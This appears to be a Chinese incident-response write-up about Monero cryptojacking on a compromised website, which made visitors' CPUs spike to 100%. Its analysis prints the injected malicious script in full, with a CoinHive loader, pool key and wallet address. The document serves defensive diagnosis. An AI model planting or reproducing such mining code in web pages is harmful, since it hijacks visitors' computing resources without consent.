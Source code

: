 ## 第2篇：门罗币恶意挖矿

门罗币(Monero 或 XMR)，它是一个非常注重于隐私、匿名性和不可跟踪的加密数字货币。只需在网页中配置好js脚本，打开网页就可以挖矿，是一种非常简单的挖矿方式，而通过这种恶意挖矿获取数字货币是黑灰色产业获取收益的重要途径。

### 现象描述

利用XMR恶意挖矿，会大量占用用户的CPU资源，严重影响了网站的用户体验。

从08/09日0点开始，局域网内某IP访问网站页面会触发安全预警，只要访问此服务器上的网页，CPU直线上升100%

![](http://img-upaiyun-own.test.upcdn.net/2-5.jpg)

### 问题解析

通过获取恶意网页url，对网页页面进行分析，发现网站页面被植入在线门罗币挖矿代码：

```html
`<script>  
    var script = document.createElement('script');  
    script.onload = function () {  
        // XMR Pool hash  
		var m = new CoinHive.Anonymous('BUSbODwUSryGnrIwy3o6Fhz1wsdz3ZNu');  
       // TODO: Replace the below string with wallet string  
		m.start('47DuVLx9UuD1gEk3M4Wge1BwQyadQs5fTew8Q3Cxi95c8W7tKTXykgDfj7HVr9aCzzUNb9vA6eZ3eJCXE9yzhmTn1bjACGK');  
    };  
    script.src = 'https://coinhive.com/lib/coinhive.min.js';  
    document.head.appendChild(script);  
</script>  `
```



删除js里面的恶意代码，网站被XMR 恶意挖矿，服务器已经被攻击，进一步做服务器入侵排查。